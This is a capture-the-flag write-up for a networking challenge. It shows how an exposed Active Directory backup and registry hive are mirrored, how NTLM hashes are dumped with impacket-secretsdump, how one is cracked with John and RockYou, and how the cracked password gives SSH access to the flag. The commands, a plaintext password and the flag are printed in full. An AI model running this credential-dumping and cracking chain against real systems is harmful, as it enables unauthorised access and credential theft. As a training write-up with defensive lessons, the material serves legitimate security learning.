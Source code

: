 # overSSHaring — Networking Challenge Write-Up

> **Category:** Networking   |   **Points:** 200 (Medium)

---

## 0  Scenario Overview

The North Torbians accidentally exposed an Active Directory backup and SYSTEM hive via a public file share at `https://msoidentity.com/files/`. My goal was to leverage these artifacts to extract SSH credentials and retrieve the flag.

## 1  Recon & Preliminary Analysis

I mirrored the share and listed its contents:

```bash
wget -r -np -nH --cut-dirs=1 -R "index.html*" https://msoidentity.com/files/
tree -L 1
```

```
.
├── 46381.py
├── 46467.txt
├── 51632.py
├── 51697.txt
├── backup                # 16 MiB – ESE database (AD backup)
├── config.json
├── configuration_deepseek.py
├── log.txt
├── opsec.txt
└── sys                   # 15 MiB – SYSTEM registry hive
```

- **log.txt** / **opsec.txt** mentioned reused passwords `s0ju` and `winter2024`.
- **config.json** was just a model config—no credentials.
- The critical files were **backup** (ESE) and **sys** (registry hive).

### 1.1  Failed Preliminary Attempts

Before dumping hashes, I tried a few direct approaches:

- **Tried SSH with known passwords** (`s0ju`, `winter2024`, and `winter2024!`) manually against common usernames → **Permission denied**.
- **Inspected **`` and Python scripts for hardcoded creds → none found.
- **Built a tiny custom John wordlist** with `s0ju`, `s0ju!`, `winter2024`, `winter2024!` → no hashes cracked.

These failures confirmed I needed to extract the underlying NTLM hashes.

---

## 2  Extracting NTLM Hashes

1. Identify file types:

   ```bash
   file backup   # ESE database
   file sys      # Windows registry hive
   ```

2. Dump NTLM hashes offline with Impacket:

   ```bash
   impacket-secretsdump -ntds backup -system sys LOCAL > ntds.txt
   grep ssh_admin ntds.txt
   ```

```
torbintime.local\ssh_admin:1114:...:8dbd9a82a5d6f6bc4124d05d247883a0:::
```

---

## 3  Cracking the Password

I started with a tiny wordlist:

```bash
printf "%s\n" s0ju s0ju! winter2024 winter2024! > custom.txt
john --format=NT --wordlist=custom.txt ssh_admin.hash
```

No hashes cracked. Next, I installed RockYou:

```bash
sudo apt install wordlists
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ssh_admin.hash
john --show ssh_admin.hash
```

John revealed:

```
ssh_admin:jucheteamo
```

---

## 4  SSH & Flag Retrieval

```bash
ssh ssh_admin@msoidentity.com
# Password: jucheteamo
cat ~/flag.txt
```

```
C1{f0ll0wing_th3_l34d5}
```

---

## 5  Lessons Learned

- **Public shares can leak whole AD backups.** ESE + SYSTEM → full credential dump.
- **Chat logs as cribs** accelerate cracking strategies.
- **Minimal tooling** (Impacket + John) remains effective.
- Disable `PasswordAuthentication yes` or rotate to key-only SSH.

*Write-up by Moneer Shoukri – June 2025*

